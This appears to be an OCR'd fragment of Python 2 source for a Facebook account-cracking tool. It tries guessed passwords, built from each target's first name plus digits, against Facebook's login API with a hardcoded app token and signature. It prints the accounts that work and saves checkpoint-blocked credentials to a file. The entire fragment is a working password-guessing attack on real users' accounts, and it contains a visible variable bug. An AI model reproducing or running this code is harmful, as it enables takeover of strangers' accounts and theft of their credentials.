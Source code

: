 						print '\033[0;91m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass2 + '\033[0;39m | \033[0;39m' + b['name']

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[0;36;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass2 + '\033[0;39m | \033[0;39m' + b['name']

							cek = open("out/CP.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '12345'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass3 + '\033[0;39m | \033[0;39m' + b['name']

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass3 + '\033[0;39m | \033[0;39m' + b['name']

									cek = open("out/CP.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass4)

								else:

									pass4 = b['first_name'] + '1234'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:
